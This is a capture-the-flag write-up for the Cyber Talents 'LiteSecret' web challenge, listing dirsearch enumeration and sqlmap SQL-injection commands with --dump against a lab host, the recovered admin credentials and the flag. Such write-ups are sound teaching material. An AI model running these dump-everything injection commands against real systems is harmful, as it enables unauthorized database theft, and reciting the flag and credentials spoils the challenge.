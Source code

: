 
# LiteSecret - Cyber Talents

To solve this challenge, I checked the elements in the dev tools and here is what I found:

![image](https://github.com/user-attachments/assets/8e7c33d5-4265-473f-b7dd-021f39b9e7b9)

---

## Step 2: Enumerating Subdirectories

After noticing there are subdirectories to traverse, I used **Dirsearch**:

```bash
dirsearch -u http://wcamxwl32pue3e6mkgvdrq0i9zrqe435p0l7s835-web.cybertalentslabs.com/login -x 403,404
```

Results:

![image](https://github.com/user-attachments/assets/ca5dbc8b-93cc-44d8-a511-c4c4e2ad900c)
![image](https://github.com/user-attachments/assets/ad25394d-19f6-46b8-af2d-aa2ad9229a6d)

---

## Step 3: Testing Input Fields for SQL Injection using Post method

I tried injecting input fields but they were ineffective, even with **SQLMap**. Here’s the command I used:

```bash
sqlmap -u "http://wcamxwl32pue3e6mkgvdrq0i9zrqe435p0l7s835-web.cybertalentslabs.com/login" --dbms=sqlite --level=3 --risk=3 --dump --ignore-code=500,404 --random-agent --threads=10 --answers=y --data="username=admin&password=pass"
```

Outcome:

![image](https://github.com/user-attachments/assets/4e2745da-8369-4fe5-b675-274df78ad258)

---

## Step 4: Using GET Method for SQL Injection

Next, I attempted SQL injection using the **GET** method with the following command:

```bash
sqlmap -u "http://wcamxwl32pue3e6mkgvdrq0i9zrqe435p0l7s835-web.cybertalentslabs.com/home/1" --dbms=sqlite --technique=BU --level=3 --risk=3 --dump --ignore-code=500,404 --random-agent --threads=10 --answers=y
```

Results:

![image](https://github.com/user-attachments/assets/3affacf1-0fa6-4cdd-9a46-4d5a0f0cfe24)
![image](https://github.com/user-attachments/assets/66e9f816-87b0-4f17-abc0-a45007bae9c1)

---

## Credentials Found

- **Username**: `Admin`
- **Password**: `3da0f453651f0eca43e02645b68ec83c3c659b9d57ea556d0842047c9393c789`

---

## Final Step: Retrieving the Flag

The flag obtained is:

**FLAG{4adc81ee29410e84b89f52c529a9b80774713a68aca48ffd6d0614896aa8704f}**

---

### Notes
- Use `--threads=10` to make the scanning process faster.
- Admin is case sensitive, so admin will fail.
